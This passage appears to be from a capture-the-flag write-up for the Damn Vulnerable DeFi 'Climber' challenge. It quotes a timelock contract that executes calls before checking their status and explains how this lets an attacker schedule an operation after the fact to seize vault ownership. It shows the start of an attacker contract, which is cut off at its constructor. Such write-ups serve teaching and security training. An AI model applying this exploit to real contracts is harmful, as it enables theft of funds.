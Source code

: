 ```sol
            revert InvalidValuesCount();
        }

        if (targets.length != dataElements.length) {
            revert InvalidDataElementsCount();
        }

        bytes32 id = getOperationId(targets, values, dataElements, salt);

        for (uint8 i = 0; i < targets.length;) {
            targets[i].functionCallWithValue(dataElements[i], values[i]);
            unchecked {
                ++i;
            }
        }

        if (getOperationState(id) != OperationState.ReadyForExecution) {
            revert NotReadyForExecution(id);
        }

        operations[id].executed = true;
    }
```

`ClimberTimelockBase.sol` code:
```sol
    function getOperationState(bytes32 id) public view returns (OperationState state) {
        Operation memory op = operations[id];

        if (op.known) {
            if (op.executed) {
                state = OperationState.Executed;
            } else if (block.timestamp < op.readyAtTimestamp) {
                state = OperationState.Scheduled;
            } else {
                state = OperationState.ReadyForExecution;
            }
        } else {
            state = OperationState.Unknown;
        }
    }
```

We can manipulate the `ClimberTimelock` to execute any operation by scheduling it post-execution. This approach enables us to ultimately transfer the ownership of `ClimberVault` to ourselves, thereby successfully completing the challenge.

Exploit contract:
```sol
contract ClimberAttacker {

    ClimberVault vault;
    DamnValuableToken token;
    ClimberTimelock timeclock;

    address[] targets = new address[](4);
    uint256[] values = new uint256[](4);
    bytes[] dataElements = new bytes[](4);

    constructor(address _vaultAddress, address _tokenAddress) {
        vault = ClimberVault(_vaultAddress);
        token = DamnValuableToken(_tokenAddress);
        timeclock = ClimberTimelock(payable(vault.owner()));
    }

```